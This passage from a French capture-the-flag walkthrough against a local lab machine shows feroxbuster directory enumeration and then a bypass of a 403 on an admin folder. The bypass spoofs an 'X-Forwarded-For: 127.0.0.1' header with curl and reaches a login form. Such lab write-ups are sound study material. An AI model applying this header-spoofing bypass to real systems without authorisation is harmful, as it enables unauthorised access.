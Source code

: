 ```console
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      330c http://192.168.56.112/adminstration/users
301        9l       28w      331c http://192.168.56.112/adminstration/upload
301        9l       28w      332c http://192.168.56.112/adminstration/include
301        9l       28w      331c http://192.168.56.112/adminstration/logout
301        9l       28w      334c http://192.168.56.112/adminstration/bootstrap
[####################] - 3m   1273562/1273562 0s      found:5       errors:1      
[####################] - 3m   1273562/1273562 7070/s  http://192.168.56.112/adminstration/
```

Toutes ces URLs redirigent en 301 vers le dossier correspondant (redirection avec le `/` terminal) mais une fois accédé, on obtient un 403 (accès refusé).

Après avoir énuméré en long et en large le serveur web, [une idée me vient](https://www.youtube.com/watch?v=D29OtboQV_c) :

```console
$ curl -D- http://192.168.56.112/adminstration/
HTTP/1.0 403 Forbidden
Date: Thu, 26 Jun 2025 13:52:45 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: PHPSESSID=i1jooubj3epicm50h1vkb37mr0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 75
Connection: close
Content-Type: text/html

<h1>Forbidden</h1><p>You don't have permission to access on this folder</p>

$ curl -D- http://192.168.56.112/adminstration/ -H "X-Forwarded-For: 127.0.0.1"
HTTP/1.1 200 OK
Date: Thu, 26 Jun 2025 13:52:57 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: PHPSESSID=m6ejjj7eim76uk35orojdaoh35; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 926
Content-Type: text/html

<html>
<head>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/css/bootstrap.min.css" integrity="sha384-TX8t27EcRE3e/ihU7zmQxVncDAy5uIKz4rEkgIXeMed4M0jlfIDPvg6uqKI2xXr2" crossorigin="anonymous">
<body>
<form action="" method="POST">
 
 <div class="container mt-5">
    <div class="form-group">
        <label for="exampleInputUsername">Username</label>
        <input type="text" class="form-control" name="username" placeholder="Enter username">
        <small id="emailHelp" class="form-text text-muted">We'll never share your username with anyone else.</small>
    </div>
    <div class="form-group">
```